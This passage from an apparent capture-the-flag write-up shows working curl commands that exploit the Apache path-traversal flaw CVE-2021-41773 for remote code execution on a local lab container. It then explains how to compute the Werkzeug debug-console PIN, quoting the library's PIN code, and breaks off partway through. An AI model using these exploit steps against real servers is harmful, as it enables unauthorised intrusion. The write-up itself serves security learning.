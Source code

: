 Using those concepts, we made a [script](solver/encoder.py) to generate the encoded payload automatically

**Remote Code Execution (Frontend) using CVE-2021-41773**

Based on `CVE-2021-41773` POC, the RCE exploit can be triggered by using:

```bash
$ curl 'http://localhost:9013/.cgi-bin/.%2E/.%2E/%2E%2E/%2E%2E/%2E%2E/%2E%2E/%2E%2E/%2E%2E/%2E%2E/%2E%2E/bin/bash' -d 'echo;command'
```

Unfortunately, `;` is nowhere to be used. This issue can be resolved by substituting the character with another logical operator, such as `&&` which is used to execute the next command if-only-if the previous command was successfully executed. In addition, we store the payload into a file, so that it eliminates the need of character escaping

```bash
$ curl 'http://localhost:9013/.cgi-bin/.%2E/.%2E/%2E%2E/%2E%2E/%2E%2E/%2E%2E/%2E%2E/%2E%2E/%2E%2E/%2E%2E/bin/bash' -d @payload

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

As we can see, we executed our first remote code executed. Unfortunately, the flag is stored in backend container.

**Remote Code Execution (Backend) using Werkzeug debugger**

By analyzing the `docker-compose.yml`, we can see that there's one major error, which is the Flask-backend is set to `development` mode.

```yml
  backend:
    build: backend
    restart: on-failure
    container_name: searchify_backend
    read_only: true
    environment:
      - FLASK_ENV=development
```

When it was activated, it enables an endpoint of `/console` that can be used to access the interactive python web-console. Nevertheless, it couldn't be accessed unless you have the correct `pincode`. 

Fortunately, the `pincode` itself is somehow computeable if-only-if you have the correct piece of informations. Furthermore, we can see how the `pincode` generation works on `/usr/local/lib/python3.10/site-packages/werkzeug/debug/__init__.py`

```py
def get_pin_and_cookie_name(app)
    ..
    ..
    ..
    # This information only exists to make the cookie unique on the
    # computer, not as a security feature.
    probably_public_bits = [
        username,
        modname,
        getattr(app, "__name__", type(app).__name__),
        getattr(mod, "__file__", None),
    ]

    # This information is here to make it harder for an attacker to
    # guess the cookie name.  They are unlikely to be contained anywhere
    # within the unauthenticated debug page.
    private_bits = [str(uuid.getnode()), get_machine_id()]

    h = hashlib.sha1()
    for bit in chain(probably_public_bits, private_bits):
```